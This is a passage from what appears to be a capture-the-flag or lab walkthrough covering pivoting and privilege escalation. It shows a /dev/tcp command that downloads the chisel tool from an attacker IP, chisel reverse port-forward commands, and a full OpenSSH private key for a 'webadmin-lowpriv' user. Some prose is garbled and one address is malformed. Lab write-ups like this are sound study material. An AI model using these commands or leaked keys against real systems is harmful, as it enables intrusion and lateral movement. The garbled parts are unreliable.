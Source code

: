 It would then be prudent to upload chisel as Al malds ove rthe c2 agent like I did while he was discussing the source code. I get a two is one and one is none shell for chisel. There is no  curl or wget so we will use `cat` and locally host files with `nc`. While debug the agent...
```bash
bash -c "cat < /dev/tcp/10.11.3.193/8888 > /tmp/chisel"
```

Chisel reverse port redirections
```bash
nohup ./chisel client 10.11.3.193:9001 R:127.0.01:9002:172.20.0.1:80 &
nohup ./chisel client 10.11.3.193:9001 R:127.0.01:9003:172.20.0.2:80 &
```

This ended while I could not reach these... Al made it work so I skipped forward

## Foothold as webadmin-lowpriv and PrivEsc to Root

![](newcommnad.png)

webadmin-lowpriv's id_rsa
```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

